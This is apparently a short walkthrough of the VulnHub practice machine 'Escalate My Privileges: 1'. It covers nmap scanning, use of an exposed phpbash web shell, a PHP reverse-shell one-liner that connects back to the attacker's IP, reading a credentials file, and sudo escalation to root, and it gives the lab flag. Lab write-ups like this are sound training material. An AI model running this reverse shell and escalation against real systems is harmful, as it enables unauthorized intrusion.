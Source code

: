 # Escalate My Privileges: 1

- [Tools](#tools)

Machine: https://www.vulnhub.com/entry/escalate-my-privileges-1,448/ 

## Tools
1. NMap
2. netcat

## Gaining Access
1. After Running the VM as bridged connection, I checked my gateway page to find IP. In my case ip is 192.168.0.11.
2. Scan with NMap gives some open ports.
3. Nmap with this command nmap -A 192.168.0.11 gives an url http://192.168.0.11/phpbash.php.
4. It’s a shell on that link. We can execute command as user apache.
5. Running this command php -r '$sock=fsockopen("192.168.0.4",1337);exec("/bin/sh -i <&3 >&3 2>&3");' with my ip port gives a netcat shell.

## Priviledge Escalation
1. On /home/armour directory there is a file named Credentials.txt. Inside it we get password md5(rootroot1).
2. Spawn tty shell, convert md5sum of the password to format password. Then login as armour with md5sum of rootroot1.
3. Using sudo -l command shows /bin/bash could be used to get root shell. 
4. Used sudo /bin/bash command to root.
5. We can get flag inside /root/flag.txt. The flag is  628435356e49f976bab2c04948d22fe4.

Author: Zishan Ahamed Thandar
